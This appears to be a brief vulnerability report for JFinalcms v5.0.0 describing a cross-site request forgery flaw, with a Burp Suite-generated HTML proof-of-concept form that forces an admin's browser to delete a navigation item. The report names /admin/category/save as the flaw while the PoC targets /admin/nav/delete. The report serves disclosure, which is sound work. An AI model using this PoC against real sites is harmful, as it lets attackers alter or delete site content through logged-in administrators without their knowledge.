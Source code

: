 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/category/save

![图片](https://github.com/ysuzhangbin/cms/assets/27912238/bd49ee33-46a3-4e36-a432-483f54a037f8)


create poc:

![图片](https://github.com/ysuzhangbin/cms/assets/27912238/9688229f-527a-464b-ac10-1ed94ab81f5a)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/nav/delete" method="POST">
      <input type="hidden" name="id" value="96" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
successed

![图片](https://github.com/ysuzhangbin/cms/assets/27912238/ba9b0fac-e895-4bae-a8a5-6de90b8916ab)
